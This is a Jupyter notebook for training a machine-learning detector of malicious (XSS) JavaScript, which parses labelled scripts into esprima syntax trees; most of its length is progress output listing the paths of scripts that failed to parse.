In [1]:
import pandas as pd
from sklearn.metrics import accuracy_score, precision_score, recall_score, f1_score
from sklearn.model_selection import train_test_split
from sklearn.feature_extraction.text import CountVectorizer
from keras.models import Sequential
from keras import layers
from keras.backend import clear_session
from keras.preprocessing.text import Tokenizer
from keras.layers import Activation, Dense, Reshape 
import numpy as np
from keras import backend as K
import matplotlib.pyplot as plt
import pandas as pd
from keras.preprocessing.sequence import pad_sequences
from keras.layers import Embedding, LSTM, Dense, Bidirectional, Dropout, Conv1D, GlobalMaxPooling1D
from keras.models import load_model
from numpy import asarray
from numpy import save
from numpy import load
from sklearn.metrics import confusion_matrix
from sklearn.metrics import classification_report
import esprima as esp
import re
from keras.initializers import Constant
from tensorflow.keras.optimizers import Adam
from keras.losses import BinaryCrossentropy
from tensorflow.keras.utils import plot_model
from keras import Model
from tensorflow.keras.utils import Sequence
import pydot
import gensim 
from nltk.tokenize import word_tokenize
import pickle
from keras import backend as K
import os
import random
import re
from sklearn.metrics import accuracy_score, precision_score, recall_score, f1_score
import logging
from time import time
from functools import partial
# from concurrent.futures import ProcessPoolExecutor
import concurrent.futures
from threading import current_thread
# from tqdm.notebook import tqdm
from tqdm import tqdm
import gc
# Set the random seed for reproducible results
np.random.seed(123)
plt.style.use('ggplot')

In [2]:
for item in  pd.read_csv("E:\XSS_dataset_esprima.csv",ch)
my_df.head()

,ScriptPath,Label
0,data/cdnjs/cdnjs/ajax/libs/dojo/1.8.1/cldr/nls...,0
1,data/cdnjs/cdnjs/ajax/libs/parsley.js/2.0.0/pa...,0
2,data/cdnjs/cdnjs/ajax/libs/webshim/1.15.2/dev/...,0
3,data/jgallen23/jquery-builder/dist/2.0.0/jquer...,0
4,data/vimpr/vimperator-plugins/hatebuCounter.js,0


In [3]:
my_df.shape

(79425, 2)

In [4]:
# convert java script code to the abstract syntax tree
# then extract the sequences of syntax units with detailed information
def sequence_of_syntax_units(scripts):
    """
    sctipts : list or single javascript code 
    return sequence of syntax units
    each syntax unit correspond to line in an abstract syntax tree
    """
    if type(scripts) is list:
        # esp.parseScript(script) returns abstract syntax tree of each js scripts
        return [re.sub('\s+', ' ', ''.join(str(esp.parseScript(script)).split('\n'))) for script in scripts]
    elif type(scripts) is str:
        return re.sub('\s+', ' ', ''.join(str(esp.parseScript(scripts)).split('\n')))
    else:
        raise ValueError('The type of scripts parameter must be {list or string}')

In [5]:
def read__script(script_paths,parent_path,y):
    x_temp = 0
    y_temp = 0
#     todrop = []
    try :
        for path in script_paths:
            with open(os.path.join(parent_path,path), 'r') as js_file:
                script = js_file.read()
                if len(script) < 10:
                    print('small script ')
                if 'str' not in '{}'.format(type(script)):print('This script is not string');continue
    #             script = lowering_remove_url_ip_(script)
                script = sequence_of_syntax_units(script)
                new_y = y[script_paths.index(path)]
                x_temp = (script)
                y_temp = (new_y)
        return x_temp , y_temp
    except:
        print(path)
    return None , None

In [6]:
list_X_train = []
list_y_train = []
i = 0
for df_iterator in pd.read_csv("G:\JSContanaDataSet\XSS_dataset.csv",chunksize=1):
    print("========================================="+str(i)+"===========================================")
    
    X_train , y_train = df_iterator[df_iterator.columns[-2]] , df_iterator[df_iterator.columns[-1]]
    
    X_train , y_train = read__script(X_train.tolist(),"G:\JSContanaDataSet",y_train.tolist())
    if X_train!=None:
        list_X_train.append(X_train)
        list_y_train.append(y_train)
    i+=1

=========================================0===========================================
=========================================1===========================================
=========================================2===========================================
=========================================3===========================================
=========================================4===========================================
=========================================5===========================================
=========================================6===========================================
=========================================7===========================================
=========================================8===========================================
=========================================9===========================================
=========================================10===========================================
=========================================11==========

=========================================88===========================================
data/balanced/balanced-dashboard/tests/test-helper.js
=========================================89===========================================
=========================================90===========================================
=========================================91===========================================
=========================================92===========================================
=========================================93===========================================
=========================================94===========================================
=========================================95===========================================
=========================================96===========================================
=========================================97===========================================
=========================================98=================================

=========================================177===========================================
=========================================178===========================================
=========================================179===========================================
=========================================180===========================================
=========================================181===========================================
=========================================182===========================================
=========================================183===========================================
=========================================184===========================================
=========================================185===========================================
=========================================186===========================================
=========================================187===========================================
================================

=========================================267===========================================
=========================================268===========================================
=========================================269===========================================
=========================================270===========================================
=========================================271===========================================
=========================================272===========================================
=========================================273===========================================
=========================================274===========================================
=========================================275===========================================
=========================================276===========================================
=========================================277===========================================
================================

data/ractivejs/ractive/src/virtualdom/items/Component/_Component.js
=========================================358===========================================
=========================================359===========================================
=========================================360===========================================
=========================================361===========================================
=========================================362===========================================
=========================================363===========================================
data/projectfedena/project_fedena/public/javascripts/fckeditor/editor/_source/classes/fcktoolbarbreak_ie.js
=========================================364===========================================
=========================================365===========================================
=========================================366===========================================
================================

=========================================451===========================================
=========================================452===========================================
=========================================453===========================================
=========================================454===========================================
=========================================455===========================================
=========================================456===========================================
data/sebastienros/jint/Jint.Tests.Ecma/TestCases/ch15/15.10/15.10.2/15.10.2.13/S15.10.2.13_A1_T2.js
=========================================457===========================================
data/unknown/16821.js
=========================================458===========================================
=========================================459===========================================
=========================================460==========================================

=========================================540===========================================
=========================================541===========================================
=========================================542===========================================
=========================================543===========================================
=========================================544===========================================
=========================================545===========================================
=========================================546===========================================
=========================================547===========================================
=========================================548===========================================
=========================================549===========================================
=========================================550===========================================
================================

=========================================637===========================================
=========================================638===========================================
=========================================639===========================================
=========================================640===========================================
=========================================641===========================================
=========================================642===========================================
data/jsdelivr/jsdelivr/files/ckeditor/4.3.0/plugins/find/lang/en-ca.js
=========================================643===========================================
=========================================644===========================================
=========================================645===========================================
=========================================646===========================================
=========================================647=====

=========================================725===========================================
=========================================726===========================================
=========================================727===========================================
=========================================728===========================================
=========================================729===========================================
=========================================730===========================================
=========================================731===========================================
=========================================732===========================================
=========================================733===========================================
=========================================734===========================================
=========================================735===========================================
================================

=========================================818===========================================
=========================================819===========================================
=========================================820===========================================
=========================================821===========================================
=========================================822===========================================
=========================================823===========================================
=========================================824===========================================
=========================================825===========================================
=========================================826===========================================
=========================================827===========================================
data/bustlelabs/ember-restless/addons/fixture-adapter.js
=========================================828===================

=========================================909===========================================
=========================================910===========================================
=========================================911===========================================
data/unknown/2854.js
=========================================912===========================================
=========================================913===========================================
=========================================914===========================================
=========================================915===========================================
=========================================916===========================================
=========================================917===========================================
=========================================918===========================================
=========================================919===========================================
data/Merche

=========================================997===========================================
=========================================998===========================================
data/impeccabledigital/Notepad-RT/Notepad RT/bld/Release/PackageLayout/ace-src/mode-scala.js
=========================================999===========================================
=========================================1000===========================================
=========================================1001===========================================
=========================================1002===========================================
=========================================1003===========================================
=========================================1004===========================================
=========================================1005===========================================
=========================================1006===========================================
====================

=========================================1083===========================================
=========================================1084===========================================
=========================================1085===========================================
=========================================1086===========================================
=========================================1087===========================================
=========================================1088===========================================
=========================================1089===========================================
=========================================1090===========================================
=========================================1091===========================================
=========================================1092===========================================
=========================================1093===========================================
=====================

=========================================1174===========================================
data/phodal/lettuce/src/_outro.js
=========================================1175===========================================
=========================================1176===========================================
=========================================1177===========================================
=========================================1178===========================================
=========================================1179===========================================
=========================================1180===========================================
=========================================1181===========================================
=========================================1182===========================================
=========================================1183===========================================
=========================================1184===============================

=========================================1266===========================================
=========================================1267===========================================
=========================================1268===========================================
=========================================1269===========================================
=========================================1270===========================================
=========================================1271===========================================
=========================================1272===========================================
=========================================1273===========================================
=========================================1274===========================================
=========================================1275===========================================
=========================================1276===========================================
=====================

=========================================1360===========================================
=========================================1361===========================================
=========================================1362===========================================
=========================================1363===========================================
=========================================1364===========================================
=========================================1365===========================================
=========================================1366===========================================
=========================================1367===========================================
=========================================1368===========================================
data/cdnjs/cdnjs/ajax/libs/webshim/1.12.5-RC-1/dev/shims/combos/5.js
=========================================1369===========================================
=========================================

=========================================1449===========================================
=========================================1450===========================================
=========================================1451===========================================
=========================================1452===========================================
=========================================1453===========================================
=========================================1454===========================================
=========================================1455===========================================
=========================================1456===========================================
=========================================1457===========================================
=========================================1458===========================================
=========================================1459===========================================
=====================

=========================================1543===========================================
=========================================1544===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/contextmenu/lang/ku.js
=========================================1545===========================================
=========================================1546===========================================
=========================================1547===========================================
=========================================1548===========================================
=========================================1549===========================================
=========================================1550===========================================
data/webhook/webhook-cms/app/routes/theme.js
=========================================1551===========================================
=========================================1552==============================

data/sociam/indx/apps/blaster/channel.js
=========================================1632===========================================
=========================================1633===========================================
=========================================1634===========================================
=========================================1635===========================================
=========================================1636===========================================
=========================================1637===========================================
data/operasoftware/dragonfly/src/resource-manager/resource_detail_view.js
=========================================1638===========================================
=========================================1639===========================================
=========================================1640===========================================
data/burkeholland/kendo-flippable/app/components/kendo-ui-core/src/js/cultures/kendo

=========================================1723===========================================
=========================================1724===========================================
=========================================1725===========================================
=========================================1726===========================================
=========================================1727===========================================
=========================================1728===========================================
=========================================1729===========================================
=========================================1730===========================================
=========================================1731===========================================
=========================================1732===========================================
data/ignacioola/insights/src/graph.js
=========================================1733===========================

data/ptrofimov/beanstalk_console/public/highlight/languages/matlab.js
=========================================1814===========================================
data/Breeze/breeze.js.samples/net/ODataBreezejsSample/ODataBreezejsSample/app/todolists.js
=========================================1815===========================================
=========================================1816===========================================
=========================================1817===========================================
=========================================1818===========================================
data/unknown/77711.js
=========================================1819===========================================
=========================================1820===========================================
=========================================1821===========================================
data/linagora/openpaas-esn/backend/webserver/controllers/messages.js
====================================

=========================================1899===========================================
=========================================1900===========================================
=========================================1901===========================================
=========================================1902===========================================
=========================================1903===========================================
=========================================1904===========================================
=========================================1905===========================================
=========================================1906===========================================
=========================================1907===========================================
=========================================1908===========================================
=========================================1909===========================================
=====================

=========================================1990===========================================
=========================================1991===========================================
data/Novik/ruTorrent/plugins/seedingtime/lang/zh-tw.js
=========================================1992===========================================
=========================================1993===========================================
data/manfer/jQuery-DatePlusTime-Picker/i18n/jquery.dateplustimepicker-de.js
=========================================1994===========================================
=========================================1995===========================================
=========================================1996===========================================
=========================================1997===========================================
=========================================1998===========================================
=========================================1999=======================

=========================================2079===========================================
data/beefproject/beef/modules/exploits/router/bt_home_hub_csrf/command.js
=========================================2080===========================================
=========================================2081===========================================
=========================================2082===========================================
=========================================2083===========================================
=========================================2084===========================================
=========================================2085===========================================
=========================================2086===========================================
=========================================2087===========================================
=========================================2088===========================================
====================================

=========================================2164===========================================
=========================================2165===========================================
=========================================2166===========================================
=========================================2167===========================================
=========================================2168===========================================
=========================================2169===========================================
=========================================2170===========================================
=========================================2171===========================================
=========================================2172===========================================
=========================================2173===========================================
small script 
=========================================2174===========================================
=======

=========================================2257===========================================
=========================================2258===========================================
=========================================2259===========================================
=========================================2260===========================================
=========================================2261===========================================
=========================================2262===========================================
=========================================2263===========================================
data/mozilla/rhino/testsrc/tests/js1_6/extensions/regress-455464-04.js
=========================================2264===========================================
=========================================2265===========================================
=========================================2266===========================================
=======================================

=========================================2347===========================================
=========================================2348===========================================
=========================================2349===========================================
=========================================2350===========================================
=========================================2351===========================================
=========================================2352===========================================
=========================================2353===========================================
=========================================2354===========================================
=========================================2355===========================================
=========================================2356===========================================
data/TypiCMS/Base/public/components/ckeditor/plugins/quicktable/lang/zh.js
===================================

=========================================2437===========================================
=========================================2438===========================================
=========================================2439===========================================
=========================================2440===========================================
=========================================2441===========================================
=========================================2442===========================================
=========================================2443===========================================
=========================================2444===========================================
=========================================2445===========================================
=========================================2446===========================================
=========================================2447===========================================
=====================

=========================================2534===========================================
=========================================2535===========================================
=========================================2536===========================================
=========================================2537===========================================
=========================================2538===========================================
=========================================2539===========================================
=========================================2540===========================================
=========================================2541===========================================
=========================================2542===========================================
data/unknown/23795.js
=========================================2543===========================================
=========================================2544===========================================

=========================================2623===========================================
=========================================2624===========================================
=========================================2625===========================================
=========================================2626===========================================
=========================================2627===========================================
=========================================2628===========================================
data/tildeio/router.js/lib/router/handler-info/unresolved-handler-info-by-object.js
=========================================2629===========================================
=========================================2630===========================================
=========================================2631===========================================
=========================================2632===========================================
==========================

=========================================2713===========================================
data/telerik/kendo-ui-core/src/cultures/kendo.culture.en-PH.js
=========================================2714===========================================
=========================================2715===========================================
=========================================2716===========================================
=========================================2717===========================================
=========================================2718===========================================
=========================================2719===========================================
=========================================2720===========================================
=========================================2721===========================================
=========================================2722===========================================
=========================================2723==

=========================================2805===========================================
=========================================2806===========================================
=========================================2807===========================================
data/sergeylukin/css-3d-bar-graph/js/sh/shCore.js
=========================================2808===========================================
=========================================2809===========================================
=========================================2810===========================================
=========================================2811===========================================
=========================================2812===========================================
=========================================2813===========================================
=========================================2814===========================================
=========================================2815===============

=========================================2893===========================================
=========================================2894===========================================
data/markmarkoh/datamaps/src/js/components/d3/src/geo/spherical.js
=========================================2895===========================================
=========================================2896===========================================
=========================================2897===========================================
=========================================2898===========================================
=========================================2899===========================================
=========================================2900===========================================
=========================================2901===========================================
=========================================2902===========================================
data/projectfedena/project_fedena/public/ja

data/moment/moment/src/locale/sv.js
=========================================2979===========================================
=========================================2980===========================================
=========================================2981===========================================
=========================================2982===========================================
=========================================2983===========================================
=========================================2984===========================================
=========================================2985===========================================
=========================================2986===========================================
=========================================2987===========================================
=========================================2988===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/specialchar/lang/t

=========================================3072===========================================
=========================================3073===========================================
=========================================3074===========================================
=========================================3075===========================================
=========================================3076===========================================
=========================================3077===========================================
=========================================3078===========================================
=========================================3079===========================================
=========================================3080===========================================
=========================================3081===========================================
=========================================3082===========================================
=====================

=========================================3162===========================================
=========================================3163===========================================
=========================================3164===========================================
=========================================3165===========================================
=========================================3166===========================================
=========================================3167===========================================
=========================================3168===========================================
=========================================3169===========================================
=========================================3170===========================================
=========================================3171===========================================
=========================================3172===========================================
data/yasp/yasp/src/ap

=========================================3254===========================================
=========================================3255===========================================
=========================================3256===========================================
=========================================3257===========================================
=========================================3258===========================================
=========================================3259===========================================
=========================================3260===========================================
data/tastejs/todomvc/examples/durandal/bower_components/durandal/events.js
=========================================3261===========================================
=========================================3262===========================================
=========================================3263===========================================
===================================

=========================================3344===========================================
=========================================3345===========================================
=========================================3346===========================================
data/flashline/FL-Calendar/bin/js/baseUrl.flnet.dev.js
=========================================3347===========================================
=========================================3348===========================================
=========================================3349===========================================
=========================================3350===========================================
=========================================3351===========================================
=========================================3352===========================================
=========================================3353===========================================
=========================================3354==========

=========================================3435===========================================
data/yasp/yasp/src/app/instructions/ADD_wl.js
=========================================3436===========================================
=========================================3437===========================================
=========================================3438===========================================
=========================================3439===========================================
=========================================3440===========================================
=========================================3441===========================================
=========================================3442===========================================
=========================================3443===========================================
=========================================3444===========================================
data/mozilla/rhino/testsrc/tests/js1_8/regress/regress-465261.js

=========================================3523===========================================
=========================================3524===========================================
=========================================3525===========================================
=========================================3526===========================================
=========================================3527===========================================
=========================================3528===========================================
=========================================3529===========================================
=========================================3530===========================================
data/fholm/IronJS/Src/Tests/ietestcenter/chapter15/15.2/15.2.3/15.2.3.13/15.2.3.13-2-23.js
=========================================3531===========================================
=========================================3532===========================================
===================

=========================================3614===========================================
=========================================3615===========================================
=========================================3616===========================================
=========================================3617===========================================
=========================================3618===========================================
=========================================3619===========================================
=========================================3620===========================================
=========================================3621===========================================
=========================================3622===========================================
=========================================3623===========================================
=========================================3624===========================================
=====================

=========================================3703===========================================
=========================================3704===========================================
=========================================3705===========================================
=========================================3706===========================================
data/RoundingWellOS/marionette.toolkit/src/app.js
=========================================3707===========================================
=========================================3708===========================================
=========================================3709===========================================
=========================================3710===========================================
=========================================3711===========================================
=========================================3712===========================================
data/joyent/node/deps/v8/test/mjsunit/runtime-gen/stringtonu

=========================================3790===========================================
=========================================3791===========================================
=========================================3792===========================================
=========================================3793===========================================
=========================================3794===========================================
=========================================3795===========================================
=========================================3796===========================================
=========================================3797===========================================
=========================================3798===========================================
=========================================3799===========================================
=========================================3800===========================================
=====================

=========================================3879===========================================
=========================================3880===========================================
=========================================3881===========================================
=========================================3882===========================================
=========================================3883===========================================
=========================================3884===========================================
data/mozilla/rhino/testsrc/tests/js1_7/regress/regress-470388-01.js
=========================================3885===========================================
=========================================3886===========================================
=========================================3887===========================================
=========================================3888===========================================
=========================================3

=========================================3970===========================================
=========================================3971===========================================
=========================================3972===========================================
=========================================3973===========================================
=========================================3974===========================================
=========================================3975===========================================
=========================================3976===========================================
=========================================3977===========================================
=========================================3978===========================================
=========================================3979===========================================
=========================================3980===========================================
=====================

=========================================4059===========================================
=========================================4060===========================================
=========================================4061===========================================
=========================================4062===========================================
=========================================4063===========================================
=========================================4064===========================================
=========================================4065===========================================
=========================================4066===========================================
=========================================4067===========================================
=========================================4068===========================================
=========================================4069===========================================
=====================

=========================================4147===========================================
=========================================4148===========================================
=========================================4149===========================================
=========================================4150===========================================
=========================================4151===========================================
=========================================4152===========================================
=========================================4153===========================================
data/kbwood/svg/jquery.svgplot.js
=========================================4154===========================================
=========================================4155===========================================
=========================================4156===========================================
=========================================4157===============================

=========================================4232===========================================
=========================================4233===========================================
=========================================4234===========================================
=========================================4235===========================================
=========================================4236===========================================
=========================================4237===========================================
=========================================4238===========================================
=========================================4239===========================================
=========================================4240===========================================
=========================================4241===========================================
=========================================4242===========================================
=====================

=========================================4321===========================================
=========================================4322===========================================
=========================================4323===========================================
=========================================4324===========================================
=========================================4325===========================================
=========================================4326===========================================
=========================================4327===========================================
=========================================4328===========================================
=========================================4329===========================================
data/joyent/node/deps/v8/src/debug-debugger.js
=========================================4330===========================================
=========================================4331==================

=========================================4410===========================================
=========================================4411===========================================
=========================================4412===========================================
=========================================4413===========================================
=========================================4414===========================================
=========================================4415===========================================
=========================================4416===========================================
data/yincart/basic/protected/extensions/ckeditor/assets/samples/sample.js
=========================================4417===========================================
=========================================4418===========================================
=========================================4419===========================================
data/cloudjee/wavemaker/wavemaker/wa

=========================================4497===========================================
=========================================4498===========================================
=========================================4499===========================================
=========================================4500===========================================
=========================================4501===========================================
=========================================4502===========================================
=========================================4503===========================================
=========================================4504===========================================
=========================================4505===========================================
=========================================4506===========================================
data/SignalR/Samples/Samples_2.1.0/WebApplication/Features/Progress/LongRunningTaskHub.js
====================

=========================================4589===========================================
data/unknown/79819.js
=========================================4590===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/about/lang/lt.js
=========================================4591===========================================
=========================================4592===========================================
=========================================4593===========================================
=========================================4594===========================================
=========================================4595===========================================
=========================================4596===========================================
=========================================4597===========================================
=========================================4598===========================================
===============

=========================================4680===========================================
=========================================4681===========================================
=========================================4682===========================================
data/jdickie/TEILiteEditor/plugins/ckeditor/_source/plugins/about/plugin.js
=========================================4683===========================================
=========================================4684===========================================
=========================================4685===========================================
=========================================4686===========================================
=========================================4687===========================================
=========================================4688===========================================
data/sumory/nodis/Nodis.js
=========================================4689===========================================
=======

=========================================4768===========================================
=========================================4769===========================================
=========================================4770===========================================
=========================================4771===========================================
data/balanced/balanced-dashboard/app/views/modals/invoice-funding-source-edit-modal.js
=========================================4772===========================================
data/babel/babel/src/babel/transformation/transformers/es6/object-super.js
=========================================4773===========================================
=========================================4774===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/magicline/lang/pl.js
=========================================4775===========================================
=========================================4776====

=========================================4855===========================================
=========================================4856===========================================
=========================================4857===========================================
=========================================4858===========================================
=========================================4859===========================================
=========================================4860===========================================
=========================================4861===========================================
=========================================4862===========================================
=========================================4863===========================================
=========================================4864===========================================
=========================================4865===========================================
=====================

=========================================4953===========================================
=========================================4954===========================================
=========================================4955===========================================
=========================================4956===========================================
=========================================4957===========================================
=========================================4958===========================================
=========================================4959===========================================
=========================================4960===========================================
=========================================4961===========================================
=========================================4962===========================================
=========================================4963===========================================
data/w3nh4o/Laravel-5

=========================================5044===========================================
=========================================5045===========================================
=========================================5046===========================================
=========================================5047===========================================
=========================================5048===========================================
=========================================5049===========================================
=========================================5050===========================================
=========================================5051===========================================
=========================================5052===========================================
=========================================5053===========================================
=========================================5054===========================================
=====================

=========================================5130===========================================
=========================================5131===========================================
data/kennethlynne/generator-angular-xl/templates/javascript/spec/filter.js
=========================================5132===========================================
=========================================5133===========================================
=========================================5134===========================================
=========================================5135===========================================
=========================================5136===========================================
=========================================5137===========================================
=========================================5138===========================================
=========================================5139===========================================
===================================

=========================================5224===========================================
=========================================5225===========================================
=========================================5226===========================================
=========================================5227===========================================
=========================================5228===========================================
=========================================5229===========================================
=========================================5230===========================================
=========================================5231===========================================
=========================================5232===========================================
=========================================5233===========================================
=========================================5234===========================================
=====================

=========================================5317===========================================
=========================================5318===========================================
=========================================5319===========================================
data/jsdelivr/jsdelivr/files/ckeditor/4.3.0/plugins/find/lang/nb.js
=========================================5320===========================================
=========================================5321===========================================
=========================================5322===========================================
=========================================5323===========================================
=========================================5324===========================================
=========================================5325===========================================
=========================================5326===========================================
=========================================5

=========================================5403===========================================
=========================================5404===========================================
=========================================5405===========================================
=========================================5406===========================================
=========================================5407===========================================
=========================================5408===========================================
=========================================5409===========================================
=========================================5410===========================================
=========================================5411===========================================
data/unknown/81141.js
=========================================5412===========================================
=========================================5413===========================================

=========================================5492===========================================
data/beefproject/beef/modules/exploits/switch/netgear_gs108t_csrf/command.js
=========================================5493===========================================
=========================================5494===========================================
=========================================5495===========================================
=========================================5496===========================================
=========================================5497===========================================
=========================================5498===========================================
=========================================5499===========================================
=========================================5500===========================================
=========================================5501===========================================
=================================

=========================================5578===========================================
=========================================5579===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/indent/lang/nl.js
=========================================5580===========================================
=========================================5581===========================================
=========================================5582===========================================
=========================================5583===========================================
=========================================5584===========================================
=========================================5585===========================================
=========================================5586===========================================
data/galetahub/rails-ckeditor/generators/ckeditor_install/templates/ckeditor/_source/plugins/listblock/plugin.js
============

=========================================5667===========================================
=========================================5668===========================================
=========================================5669===========================================
data/ONLYOFFICE/ONLYOFFICE-OnlineEditors/OfficeWeb/apps/common/main/lib/store/Comments.js
=========================================5670===========================================
=========================================5671===========================================
=========================================5672===========================================
=========================================5673===========================================
=========================================5674===========================================
=========================================5675===========================================
=========================================5676===========================================
====================

=========================================5758===========================================
=========================================5759===========================================
=========================================5760===========================================
=========================================5761===========================================
=========================================5762===========================================
=========================================5763===========================================
=========================================5764===========================================
=========================================5765===========================================
=========================================5766===========================================
=========================================5767===========================================
=========================================5768===========================================
=====================

=========================================5852===========================================
=========================================5853===========================================
=========================================5854===========================================
=========================================5855===========================================
=========================================5856===========================================
=========================================5857===========================================
=========================================5858===========================================
=========================================5859===========================================
=========================================5860===========================================
=========================================5861===========================================
=========================================5862===========================================
=====================

=========================================5945===========================================
=========================================5946===========================================
=========================================5947===========================================
=========================================5948===========================================
=========================================5949===========================================
data/forcedotcom/aura/aura-resources/src/main/resources/aura/resources/ckeditor/ckeditor-4.x/src/plugins/image2/lang/ku.js
=========================================5950===========================================
data/thangchung/magazine-website-mvc-5/Cik.MagazineWeb.WebApp/app/controllers/dashboardController.js
=========================================5951===========================================
=========================================5952===========================================
=========================================5953===================

=========================================6034===========================================
=========================================6035===========================================
=========================================6036===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/indent/lang/vi.js
=========================================6037===========================================
=========================================6038===========================================
=========================================6039===========================================
=========================================6040===========================================
=========================================6041===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/basicstyles/lang/sq.js
=========================================6042===========================================
=========================================6043=

=========================================6124===========================================
=========================================6125===========================================
=========================================6126===========================================
=========================================6127===========================================
=========================================6128===========================================
=========================================6129===========================================
=========================================6130===========================================
=========================================6131===========================================
=========================================6132===========================================
=========================================6133===========================================
=========================================6134===========================================
=====================

=========================================6212===========================================
data/leniel/SPACodeCamper/CC.Web/app/services/repositories.js
=========================================6213===========================================
=========================================6214===========================================
=========================================6215===========================================
=========================================6216===========================================
=========================================6217===========================================
=========================================6218===========================================
=========================================6219===========================================
=========================================6220===========================================
=========================================6221===========================================
=========================================6222===

=========================================6302===========================================
=========================================6303===========================================
=========================================6304===========================================
=========================================6305===========================================
data/yincart/basic/protected/extensions/ckeditor/assets/samples/sample.js
=========================================6306===========================================
=========================================6307===========================================
=========================================6308===========================================
=========================================6309===========================================
=========================================6310===========================================
=========================================6311===========================================
====================================

=========================================6396===========================================
=========================================6397===========================================
=========================================6398===========================================
=========================================6399===========================================
=========================================6400===========================================
=========================================6401===========================================
=========================================6402===========================================
=========================================6403===========================================
=========================================6404===========================================
data/jxcore/jxcore/test/simple/test-debugger-repl-restart.js
=========================================6405===========================================
data/ntheile/SpaStack.NET/SpaStack.NET/Scripts/ap

=========================================6490===========================================
=========================================6491===========================================
=========================================6492===========================================
=========================================6493===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/about/lang/hi.js
=========================================6494===========================================
data/thinkdry/blank-application/public/ckeditor/_source/core/htmlparser/fragment.js
=========================================6495===========================================
=========================================6496===========================================
=========================================6497===========================================
=========================================6498===========================================
data/jsdelivr/jsdelivr/files/ckeditor/4.3.

=========================================6576===========================================
=========================================6577===========================================
=========================================6578===========================================
data/cdnjs/cdnjs/ajax/libs/ammaps/3.10.0/maps/js/spainHigh.js
=========================================6579===========================================
=========================================6580===========================================
=========================================6581===========================================
=========================================6582===========================================
=========================================6583===========================================
=========================================6584===========================================
=========================================6585===========================================
=========================================6586===

=========================================6668===========================================
=========================================6669===========================================
=========================================6670===========================================
=========================================6671===========================================
=========================================6672===========================================
=========================================6673===========================================
=========================================6674===========================================
=========================================6675===========================================
=========================================6676===========================================
=========================================6677===========================================
=========================================6678===========================================
=====================

=========================================6756===========================================
=========================================6757===========================================
=========================================6758===========================================
=========================================6759===========================================
=========================================6760===========================================
=========================================6761===========================================
=========================================6762===========================================
=========================================6763===========================================
=========================================6764===========================================
=========================================6765===========================================
=========================================6766===========================================
=====================

=========================================6853===========================================
=========================================6854===========================================
data/forcedotcom/aura/aura-resources/src/main/resources/aura/resources/ckeditor/ckeditor-4.x/src/plugins/format/lang/fa.js
=========================================6855===========================================
=========================================6856===========================================
=========================================6857===========================================
=========================================6858===========================================
=========================================6859===========================================
=========================================6860===========================================
=========================================6861===========================================
=========================================6862===============================

=========================================6938===========================================
=========================================6939===========================================
=========================================6940===========================================
=========================================6941===========================================
=========================================6942===========================================
data/yapplabs/glazier/app/models/dashboard.js
=========================================6943===========================================
=========================================6944===========================================
=========================================6945===========================================
=========================================6946===========================================
=========================================6947===========================================
=========================================6948===================

=========================================7024===========================================
=========================================7025===========================================
=========================================7026===========================================
=========================================7027===========================================
=========================================7028===========================================
=========================================7029===========================================
=========================================7030===========================================
=========================================7031===========================================
=========================================7032===========================================
=========================================7033===========================================
=========================================7034===========================================
=====================

=========================================7113===========================================
=========================================7114===========================================
=========================================7115===========================================
=========================================7116===========================================
=========================================7117===========================================
=========================================7118===========================================
=========================================7119===========================================
=========================================7120===========================================
=========================================7121===========================================
=========================================7122===========================================
=========================================7123===========================================
=====================

=========================================7201===========================================
=========================================7202===========================================
=========================================7203===========================================
=========================================7204===========================================
=========================================7205===========================================
=========================================7206===========================================
=========================================7207===========================================
=========================================7208===========================================
=========================================7209===========================================
=========================================7210===========================================
=========================================7211===========================================
=====================

=========================================7290===========================================
=========================================7291===========================================
=========================================7292===========================================
=========================================7293===========================================
=========================================7294===========================================
=========================================7295===========================================
=========================================7296===========================================
=========================================7297===========================================
=========================================7298===========================================
=========================================7299===========================================
=========================================7300===========================================
=====================

=========================================7379===========================================
=========================================7380===========================================
=========================================7381===========================================
=========================================7382===========================================
=========================================7383===========================================
=========================================7384===========================================
=========================================7385===========================================
=========================================7386===========================================
=========================================7387===========================================
=========================================7388===========================================
=========================================7389===========================================
=====================

=========================================7468===========================================
=========================================7469===========================================
=========================================7470===========================================
=========================================7471===========================================
=========================================7472===========================================
=========================================7473===========================================
=========================================7474===========================================
=========================================7475===========================================
=========================================7476===========================================
=========================================7477===========================================
=========================================7478===========================================
data/jquery/esprima/t

=========================================7557===========================================
=========================================7558===========================================
=========================================7559===========================================
=========================================7560===========================================
=========================================7561===========================================
=========================================7562===========================================
=========================================7563===========================================
=========================================7564===========================================
=========================================7565===========================================
=========================================7566===========================================
=========================================7567===========================================
=====================

=========================================7645===========================================
=========================================7646===========================================
=========================================7647===========================================
=========================================7648===========================================
=========================================7649===========================================
=========================================7650===========================================
=========================================7651===========================================
=========================================7652===========================================
=========================================7653===========================================
=========================================7654===========================================
=========================================7655===========================================
=====================

=========================================7738===========================================
=========================================7739===========================================
=========================================7740===========================================
=========================================7741===========================================
=========================================7742===========================================
=========================================7743===========================================
=========================================7744===========================================
=========================================7745===========================================
=========================================7746===========================================
=========================================7747===========================================
=========================================7748===========================================
=====================

=========================================7829===========================================
=========================================7830===========================================
=========================================7831===========================================
=========================================7832===========================================
data/unknown/57003.js
=========================================7833===========================================
=========================================7834===========================================
=========================================7835===========================================
=========================================7836===========================================
=========================================7837===========================================
=========================================7838===========================================
=========================================7839===========================================

=========================================7925===========================================
=========================================7926===========================================
=========================================7927===========================================
=========================================7928===========================================
=========================================7929===========================================
=========================================7930===========================================
=========================================7931===========================================
=========================================7932===========================================
=========================================7933===========================================
=========================================7934===========================================
=========================================7935===========================================
=====================

=========================================8019===========================================
=========================================8020===========================================
=========================================8021===========================================
=========================================8022===========================================
=========================================8023===========================================
=========================================8024===========================================
=========================================8025===========================================
=========================================8026===========================================
=========================================8027===========================================
=========================================8028===========================================
=========================================8029===========================================
=====================

=========================================8109===========================================
=========================================8110===========================================
=========================================8111===========================================
=========================================8112===========================================
=========================================8113===========================================
=========================================8114===========================================
=========================================8115===========================================
=========================================8116===========================================
=========================================8117===========================================
=========================================8118===========================================
=========================================8119===========================================
=====================

=========================================8194===========================================
=========================================8195===========================================
